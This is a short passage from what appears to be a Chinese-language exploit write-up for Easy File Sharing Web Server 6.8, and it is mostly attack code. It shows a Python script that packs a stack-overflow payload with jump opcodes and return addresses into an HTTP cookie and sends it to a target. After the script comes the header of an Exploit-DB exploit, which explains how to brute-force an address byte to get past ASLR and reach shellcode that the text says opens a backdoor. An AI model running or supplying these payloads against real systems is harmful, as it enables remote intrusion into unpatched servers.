 ```python
call_esi=0x1001AC3D

# sub esi,-0x28 jmp esi
payload='A'*64+"\x81\xee\xe8\xff\xff\xff" + "\xff\xe6"
payload=payload.ljust(80,'A')
payload+=struct.pack("<I", 0x0453C8D4-0x28).decode("latin-1")+struct.pack("<I", call_esi).decode("latin-1")+shellcode


buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/xaml+xml, application/x-ms-xbap, application/x-ms-application, */*\r\n"
"Accept-Language: zh-cn\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"If-Modified-Since: Fri, 11 May 2012 10:11:48 GMT; length=12447\r\n"
"User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET4.0C; .NET4.0E)\r\n"
"Host: 192.168.222.131:80\r\n"
"Conection: Keep-Alive\r\n"
"Cookie: SESSIONID=2626; UserID=" + payload + "; PassWD=; \r\n\r\n"
)


s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((target,port))
s.send(buf.encode("latin-1"))
s.close() 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>exploit db上的脚本比较全面了，shellcode就是开了一个后门，也有猜栈地址绕过aslr的部分：</font></br>

```python
# Exploit Title: Easy File Sharing Web Server 6.8 stack buffer overflow
# Date: 10 May 2014
# Exploit Author: superkojiman - http://www.techorganic.com
# Vendor Homepage: http://www.efssoft.com
# Software Link: http://www.sharing-file.com/efssetup.exe
# Version: 6.8
# Tested on: English version of Windows XP Professional SP2 and SP3
#
# Description: 
# By setting UserID in the cookie to a long string, we can overwrite EDX which 
# allows us to control execution flow when the following instruction is 
# executed:
#
# 0x0045C8C2: CALL DWORD PTR DS:[EDX+28]
#
# We can point EDX+28 to a location in the stack containing a pointer to 
# instructions we want to execute. This pointer can be placed at 0x01??6969. 
# Under Windows XP Professional SP2/SP3, the first, third, and fourth bytes 
# in the address are always the same. The second byte is random so we need 
# to bruteforce it. This takes at most 255 tries and the server doesn't crash 
# so we can keep trying. 
#
# The pointer placed at 0x01??6969 is a pointer to a CALL ESI. ESI points to 
# a small space in our payload. We fill this small space with instructions to 
# jump further down the stack where our shellcode is stored. 
#
# Tested with Easy File Sharing Webserver installed in the default location at 
# C:\EFS Software\Easy File Sharing Web Server
#

import socket
```
